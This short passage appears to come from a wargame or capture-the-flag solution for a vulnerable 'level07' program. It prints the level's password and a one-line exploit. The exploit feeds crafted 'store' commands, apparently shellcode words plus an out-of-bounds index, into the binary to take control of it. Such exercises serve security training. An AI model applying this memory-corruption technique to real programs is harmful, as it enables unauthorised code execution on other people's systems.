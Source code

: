 > Password: GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8

cat <(echo -ne "store\n3947937841\n1\nstore\n2425393159\n2\nstore\n1932472168\n4\nstore\n2416307048\n5\nstore\n1768042344\n7\nstore\n2416307054\n8\nstore\n3247039369\n10\nstore\n82559625\n11\nstore\n2160921520\n13\nstore\n4294956360\n3254858420\nstore\n0\n0\nquit") - |  ./level07